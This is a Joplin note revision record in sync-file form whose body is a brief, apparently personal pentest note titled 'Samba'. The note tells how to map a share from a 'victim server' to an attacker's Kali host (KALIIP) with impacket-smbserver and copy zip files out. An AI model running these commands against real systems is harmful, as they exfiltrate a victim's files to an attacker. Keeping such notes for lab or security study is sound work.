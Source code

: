 id: 4202d945591a4af390444e1bc2ec1a47
parent_id: 
item_type: 1
item_id: 5e5f4817d1944d01bac395c9b67c1541
item_updated_time: 1650551583097
title_diff: "[{\"diffs\":[[1,\"Samba\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":6}]"
body_diff: "[{\"diffs\":[[1,\"On the victim server, run\\\n\\\n> net use Z: \\\\\\\\\\\\KALIIP\\\\\\\\share\\\n\\\nThen on kali, run in the folder to get the files\\\n\\\n> impacket-smbserver share \\\\`pwd\\\\`\\\n\\\nThen copy the files to be shared into the shared directory\\\n\\\n> copy *.zip z:.\\\n\\\n# venv\\\n\\\nIf a vitrualenv is setup, there is a smbserver.py to share a samba share\\\n\\\npython smbserver.py lab \\\\`pwd\\\\`\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":335}]"
metadata_diff: {"new":{"id":"5e5f4817d1944d01bac395c9b67c1541","parent_id":"819fca2060d64809bbdac4fc93fdd86a","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-21T14:33:31.460Z
created_time: 2022-04-21T14:33:31.460Z
type_: 13